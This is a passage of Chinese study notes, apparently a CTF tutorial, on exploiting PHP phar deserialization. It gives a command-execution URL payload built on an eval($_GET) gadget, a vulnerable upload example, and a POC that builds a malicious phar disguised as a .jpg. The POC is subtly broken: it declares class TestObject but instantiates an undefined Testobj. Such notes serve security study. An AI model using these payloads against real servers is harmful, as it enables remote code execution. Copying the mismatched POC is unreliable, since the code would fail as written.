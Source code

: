 访问phar.php页面后会在目录下创建test.phar文件，然后再在index.php的url上输入?filename=phar://test.phar&a=system(‘ls’);即可执行命令

Phar协议解析文件时，会自动触发对manifest字段的序列化，字符串进行反序列化

反序列化触发__destruct，执行eval($this->output)，而反序列化后output=‘eval(\$\_GET[“a”]);’

**Phar使用条件**

* phar文件能够上传到服务器端
* 要有可用反序列化魔术方法作为跳板
* 要有文件操作函数，如file_exists()，fopen()，file_get_contents()
* 文件操作函数参数可控，且 : 、/、phar等特殊字符没有被过滤

### 例题

```php
<?php
class TestObject {
    public function __destruct() {
        include('flag.php');
        echo $flag;
    }
}
$filename = $_POST['file'];
if (isset($filename)){
    echo md5_file($filename);
}
//upload.php，这是一个上传文件的页面
```

![image-20240404162726524](PHP%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96.assets/image-20240404162726524.png)

```php
/*POC生成test.phar，注意php版本要低版本*/
<?php
class TestObject {
}
@unlink("test.phar");
$phar = new Phar("test.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$o = new Testobj();
$phar->setMetadata($o);
$phar->addFromString("text.txt","test");
$phar->stopBuffering();
```

然后修改后缀名为jpg再上传

最后post提交file=phar://upload/phar.jpg即可
